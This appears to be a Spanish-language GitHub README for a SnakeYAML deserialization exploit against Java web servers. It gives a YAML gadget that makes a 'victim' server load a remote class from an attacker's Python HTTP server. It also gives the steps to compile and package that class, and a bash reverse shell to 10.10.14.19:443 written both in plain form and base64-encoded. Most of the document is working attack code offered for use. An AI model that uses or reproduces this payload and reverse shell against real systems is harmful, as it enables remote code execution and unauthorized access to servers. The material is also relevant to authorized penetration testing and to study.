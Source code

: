 # yaml-parser-payload
payload parser yaml javaweb
#SPANISH
Payload para ejecutar una reverse shell en un servidor yaml en java.

Esto lo pondremos en el servidor victima para que nos ejecute nuestro payload  con nuestra r_shell.
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://my_python_server/"]
  ]]
]
```
En nuestra terminal compartiremos un server con python para que se conecte nuestra victima hacia nosotros asi cargar el payload.
```bash
sudo python3 -m hhtp.server 80
```
Editaremos nuestro archivo AwesomeScriptEngineFactory.java
y añadiremos nuestra reverse_shell en bash pero codificado en base64 lo codificaremos en esta pagina.
```reverse
bash -i >& /dev/tcp/10.10.14.19/443 0>&1

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOS80NDMgMD4mMQ==}|{base64,-d}|{bash,-i}
```
in this page encode reverse shell  in base64 http://www.jackson-t.ca/runtime-exec-payloads.html

lo compilamos :
necesitaremos jdk instalado ojo!!!!
------bash console or cmd -----
```bash
javac AwesomeScriptEngineFactory.java
```
Nos generara el archivo 'AwesomeScriptEngineFactory.class'. y lo introduciremos en la carpeta h1dr0.

La estructura del Payload tiene que ser asi para que el servidor haga la peticion y encuetre el archivo. 
```tree
 exploit /
  |-->      META-INF/services/javax.script.ScriptEngineFactory dentro de este archivo escribir esto -> h1dr0.AwesomeScriptEngineFactory/
  |-->      h1dr0/AwesomeScriptEngineFactory.class
```




A tiny project for generating payloads for the SnakeYAML deserialization gadget (taken from https://github.com/mbechler/marshalsec):
thanks @marshalsec.


